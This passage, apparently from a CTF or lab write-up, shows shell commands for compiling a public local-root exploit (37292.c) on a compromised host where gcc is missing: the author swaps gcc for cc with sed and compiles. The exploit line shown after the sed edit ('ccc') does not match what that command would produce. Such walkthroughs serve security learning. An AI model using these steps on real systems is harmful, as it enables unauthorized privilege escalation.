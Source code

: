 Therefore, I try to use `gcc` on the target machine to compile the exploit script but it does not work:

```

<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ gcc 37292.c -o exploit
gcc 37292.c -o exploit
The program 'gcc' is currently not installed. To run 'gcc' please ask your administrator to install the package 'gcc'

```

The `gcc` service is not available on the target system → I look for the similar one `cc` (C Compiler) which is an alias command to `gcc`

```

<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ ls -l /usr/bin/ | grep "cc"
<.9/plugins/spellchecker$ ls -l /usr/bin/ | grep "cc"
lrwxrwxrwx 1 root root 20 Apr 28 2018 cc -> /etc/alternatives/cc
-rwxr-xr-x 1 root root 77 Mar 5 2014 pollycc

```

Then I have to replace all the `gcc` commands inside the exploit file using `sed`:

```

<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ sed -i "s/gcc/cc/g" 37292.c

```

Which is actually change this line:

```c
lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
```

To:

```c
lib = system("ccc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
```

Now I use `cc` to compile the file and name the output to _exploit_:

```
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ cc 37292.c -o exploit
cc 37292.c -o exploit
37292.c:94:1: warning: control may reach end of non-void function [-Wreturn-type]
}
^
37292.c:106:12: warning: implicit declaration of function 'unshare' is invalid in C99 [-Wimplicit-function-declaration]
        if(unshare(CLONE_NEWUSER) != 0)
           ^
37292.c:111:17: warning: implicit declaration of function 'clone' is invalid in C99 [-Wimplicit-function-declaration]
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
                ^
37292.c:117:13: warning: implicit declaration of function 'waitpid' is invalid in C99 [-Wimplicit-function-declaration]
            waitpid(pid, &status, 0);
            ^
37292.c:127:5: warning: implicit declaration of function 'wait' is invalid in C99 [-Wimplicit-function-declaration]
    wait(NULL);
    ^
5 warnings generated.
```
